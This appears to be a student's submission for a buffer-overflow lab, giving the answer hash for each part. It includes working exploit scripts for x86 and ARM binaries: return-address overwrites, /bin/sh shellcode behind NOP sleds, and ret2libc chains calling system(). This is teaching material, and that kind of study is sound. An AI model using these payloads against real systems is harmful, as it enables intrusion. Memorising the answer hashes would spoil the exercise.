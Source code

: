 # Submission form

Name: Anmol Agarwal


## x86

### Part 0
* Hash

```d5f5e84c586187797799dde1563d083a```

### Part 1

* Input 
```sh
python -c 'print b"A"*32 + b"\xdb\x85\x04\x08"' | ./part0x01
```
* Hash

```sh

a5df3db3afaef66472e2d3f23ace632e

```
### Part 2

* Input

This is the exploit python file I used: ```exploit.py```

exploit.py:

```sh
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH"
eip = struct.pack("I", 0xffffc570 + 30)
nopslide = "\x90"*100
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
print padding+eip+nopslide+payload
```

To run the code on the submission server. Redirect output of ```exploit.py``` to a temp file like ```tmp/exp ```

```sh
python exploit.py > tmp/exp
```
Then run the code with the part2 file:
```sh
./part0x02 tmp/exp
```
Once you get the shell prompt type in the following command to get the hash
```sh
$ ./solve 
```
* Hash

```b79f25451dc2ae24f99a6cb6d55a14d3```

###  Part 3

* Input

This is the exploit python file I used: ```exploit.py```

exploit.py:

```sh
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH" #32 characters to overflow buffer
eip = "\x50\xa2\xe1\xf7" #0xf7e1a250 - system address
retval = "\x20\xd4\xe0\xf7"  #0xf7e0d420  - exit() address
payload = "\xcf\xb3\xf5\xf7"; #0xf7f5b3cf - address of /bin/sh
print padding+eip+retval+payload
```
To run the code on the submission server. Redirect output of ```exploit.py``` to a temp file like ```tmp/exp```

```sh
python exploit.py > tmp/exp
```
Then run the code with the part3 file:
```sh
./part0x03 tmp/exp
```
Once you get the shell prompt type in the following command to get the hash
```sh
$ ./solve 
```
* Hash

```e53b74466920064dc1907eb0ad3d06d8```

## ARM 

### Part 0
* Hash

```e6d6f9017463873525bac700e6859d39```

### Part 1
* Input
```sh
python -c 'print b"A"*24 + b"\xa0\x05\x01\x00"' | ./part0x01
```
* Hash

```e2031f249a1f9cc563a692ec4d8f7fa9```

###  Part 2


* Input

I created a file ```exploit.py```. Here are the contents of the file.

Contents of ```exploit.py```:

```sh
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFF"
eip = struct.pack("<I", 0xbeffe5f8 + 24)
nopslide = "\x90"*1000
payload = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x0e\x30\x01\x90\x49\x1a\x92\x1a\x08\x27\xc2\x51\x03\x37\x01\xdf\x2f\x62\x69\x6e\x2f\x2f\x73\x68";
print padding+eip+nopslide+payload
```
Then I redirected the output of ```exploit.py``` into a file ```tmp/exp``` as shown in the following command:

```sh
python exploit.py > tmp/exp
```
Then run the program on the server to obtain the hash:
```sh
./part0x02 tmp/exp
```
Then when you get the shell prompt on the server, obtain the hash by typing in:
```sh
$ ./solve 
```

* Hash

```621ac3a4c9d1df5e00a415f492d499b2```

### Part 3

* Input

I created a file ```exploit.py```. Here are the contents of the file.

Contents of ```exploit.py```:
```sh
import struct
padding = "AAAABBBBCCCCDDDDEEEEFFFF" #24 characters to overflow buffer
eip = "\xc8\x79\xe7\xb6" # 0xb6e779c8 -  system address
pop = "\xfc\x81\xeb\xb6"  # 0xb6eb81fc -  pop address
retval = "\x80\xd7\xe6\xb6" #0xb6e6d780 -  exit address
payload = "\x6c\xab\xf6\xb6" # 0xb6f6ab6c -  /bin/sh address
print padding+pop+payload+retval+eip
```
Then I redirected the output of ```exploit.py``` into a file ```tmp/exp``` as shown in the following command:
```sh
python exploit.py > tmp/exp
```
Then run the program on the server to obtain the hash:
```sh
./part0x03 tmp/exp
```
Then when you get the shell prompt on the server, obtain the hash by typing in:
```sh
$ ./solve 
```

* Hash

```a725634c3b722a178bb00a9e2ae23d46```

